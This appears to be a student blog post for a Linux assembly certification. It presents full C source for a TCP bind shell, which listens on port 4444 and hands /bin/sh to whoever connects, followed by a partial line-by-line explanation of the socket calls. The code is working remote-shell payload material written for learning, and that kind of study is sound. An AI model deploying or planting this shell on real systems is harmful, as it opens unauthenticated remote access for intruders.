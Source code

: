 ## Assignment 0x01: Create A Shell_Bind_TCP Shellcode
---
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main ()
{
    // creates a TCP socket
    int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    
    // creates an IP socket address struct
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444);
    addr.sin_addr.s_addr = INADDR_ANY;

    bind(sockfd, (struct sockaddr *)&addr, sizeof(addr));
    listen(sockfd, 0);

    int connfd = accept(sockfd, NULL, NULL);
    for (int i = 0; i < 3; i++)
    {
        dup2(connfd, i);
    }

    execve("/bin/sh", NULL, NULL);
    return 0;
}
```

## Analysis of Shell_Bind_TCP.c
First, a TCP socket is created using the `socket` function. As described in `man 2 socket`, the function creates an endpoint for communication and returns a file descriptor that refers to that endpoint.

`socket()` expects a domain argument, a type argument, and a protocol argument.

```c
int sockfd = socket(AF_INET, SOCK_STREAM, 0);
```

In this case, the domain argument `AF_INET` specifies the IPv4 communication protocol, the type argument `SOCK_STREAM` specifies the connection-based TCP standard for data exchange, and the protocol argument `0` indicates that the system should select the default protocol number based on the previously specified domain and protocol arguments.

Next, the `sockaddr_in` IP socket address struct is created which is used in the forthcoming `bind` method. As further explained in `man 7 in`, an IP  socket address is defined as a combination of an IP interface address and a 16-bit (2 byte) port number.

```c
struct sockaddr_in addr;
addr.sin_family = AF_INET;
addr.sin_port = htons(4444);
addr.sin_addr.s_addr = INADDR_ANY;
```

`man 7 in` states that `sin_family` is always set to `AF_INET` 

_This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:_

<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>

_Student ID: SLAE-1469_

---
[Home](https://norrismw.github.io/SLAE)
